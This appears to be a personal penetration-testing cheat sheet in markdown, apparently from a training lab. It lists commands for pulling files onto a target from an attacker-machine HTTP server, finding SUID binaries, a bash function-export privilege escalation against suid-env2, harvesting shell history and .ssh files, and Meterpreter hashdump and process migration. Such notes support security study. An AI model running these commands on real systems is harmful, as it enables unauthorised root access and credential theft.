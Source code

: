 # Getting file into target
- Option 1 - starting local server
  1. python3 -m http.server 8000
  2. wget attacker-machine:8000:file.ext
  3. make executable: chmod +x file.ext
- Option 2 - copy source
  1. Copy code from source and past in the target + save .sh
  2. make executable: chmod +x file.ext

# Working with executables

## finding them
- Option 1
  - find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

- Option 2
  - strings /usr/local/bin/suid-env2
  - /bin/bash --version < 4.2
  - function /usr/sbin/service { /bin/bash -p; }
  - export -f /usr/sbin/service
  - /usr/local/bin/suid-env2

## browsing important files  
- History
  - cat ~/.*history | less
  - .ssh Folder is always a must

# Metasploit with database

1. service postgresql start
2. service metasploit start
3. update-rc.d postgresql enable *for performance*
4. update-rc.d metasploit enable *for performance*
5. db_rebuild_cache [in msf console] *for performance*

- db_command ==> db_status, db_nmap etc

- workspace -a (add)
- workspace -d (delete)
- workspace name (move to name)

## Meterpreter (payload)
- hashdump (migrate to process first)
- getpid
- getpriv
- migrate PID [try and error, migrating to existing process] + check hashdump
- search
